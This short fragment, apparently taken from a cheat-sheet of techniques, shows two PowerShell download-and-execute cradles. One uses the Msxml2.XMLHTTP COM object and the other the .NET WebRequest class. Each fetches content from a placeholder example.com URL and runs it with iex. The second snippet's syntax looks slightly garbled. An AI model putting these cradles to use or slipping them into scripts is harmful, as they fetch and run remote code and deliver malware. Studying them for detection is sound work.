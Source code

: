```powershell
$h = New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET', 'https://example.com/nonmalicious.jpeg', $false);
$h.send();
iex($h.response)
```

* Using the `WebRequest` class in .NET:

```powershell
$wr = [System.NET.WebRequest]::Create("https://example.com/hello.webp")
$r = $wr.GetResponse();
IEX([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

